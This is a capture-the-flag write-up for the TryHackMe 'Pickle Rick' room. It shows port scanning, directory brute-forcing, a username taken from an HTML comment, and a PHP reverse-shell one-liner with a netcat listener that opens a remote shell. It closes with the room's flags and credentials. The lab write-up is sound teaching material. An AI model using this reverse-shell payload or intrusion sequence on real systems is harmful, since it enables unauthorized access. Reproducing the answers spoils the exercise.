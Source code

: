 ## Try Hack Me Pickle Rick (Easy)
https://tryhackme.com/room/picklerick

### 🧁nmap
```
nmap -Pn -sV -sT -T4 -A 10.10.164.54 -p- -vv
```

```
Not shown: 65513 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    REASON      VERSION
22/tcp    open     ssh        syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:37:06:24:e5:3e:e9:fb:dd:23:85:e1:9a:b8:ed:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT81rApdbIqrliStEeJd//NKS3V2Ca81KZ9e1omNR6Vu1b7txqq5/482iWYJ+yUcooDvWov4yzRPlftP12Lc3SIAr6cGjlYOLko8KMQQBQc5diWT7jHJhDLoMi7PaqTi5psNR2ePPaW+sz++DLWmDUYNLk9Z8Og+MZ09ugFBftgDOcJLExrJtJ1kGbslB+wjfZxAgHaLfLthdszonmbxCgUPBMhkA5xdSPvQlH7jvvxM7s5ism3XXL0ZeRykRXuxHPppchhy4Tfjym1XnUuKAwoUiXjVqxpnzrEG3fduFXBYDi/kVp5+mN5RBlLU6S6OPpjFzTA6Zv5e9yRluD5Cg9
|   256 56:5b:52:d5:96:17:30:43:a4:44:40:22:fd:cd:4e:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiZLP3/I06uORHJxSANOD67D2v7wwz3heBtgMVli4QBmEvXHYm53Lzw6yz5pTl8m01+2LxALaTNL2SagNk00jU=
|   256 19:ad:3f:6d:c4:29:2c:82:97:63:23:b3:93:ba:e4:f5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID8Z/Gfb4vuSqzbEbUY6ngoyFGJpygvAYaPeuozk29eS
80/tcp    open     http       syn-ack     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)

```
🚩22 ssh, 80 http open


```
curl 10.10.164.54
```

```
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

🚩Username: R1ckRul3s

### 🧁gobuster
```
gobuster dir -u http://10.10.164.54 -w common.txt -x html,shtml,php,jsp,zip,gz,tar,bk -t 50 -b 403,404
```

```
/assets               (Status: 301) [Size: 313] [--> http://10.10.164.54/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

![image](https://user-images.githubusercontent.com/6504854/177176350-7fb88066-a6ef-44e8-a349-87eb04b95932.png)

![image](https://user-images.githubusercontent.com/6504854/177176488-1c82a4ae-2ff9-4302-a433-0ba4ae5d6f2e.png)

![image](https://user-images.githubusercontent.com/6504854/177176572-826a6985-115f-4064-a5c7-b254eb12d3fe.png)

### 🧁web-shell
Login Username:R1ckRul3s Pass:Wubbalubbadubdub
use command panel
![image](https://user-images.githubusercontent.com/6504854/177176919-7d3ad620-c63e-4657-b49c-997c7f00143e.png)

```
nc -lnvp 4444
```

```
php -r '$sock=fsockopen("10.10.10.10",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
![image](https://user-images.githubusercontent.com/6504854/177181156-74abc304-0a75-446c-93a5-ce76a845314f.png)

![image](https://user-images.githubusercontent.com/6504854/177181337-8bfd5398-00a7-434b-9b66-cea9241685bd.png)

### 🧁flag
```
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

```
cd /home
ls
rick
ubuntu
cd /home/rick
ls
second ingredients
cat 'second ingredients'
1 jerry tear
```

```
ls /root
3rd.txt
snap
cat /root/3rd.txt
3rd ingredients: fleeb juice
```

😄Happy hacking. Thank you for your time

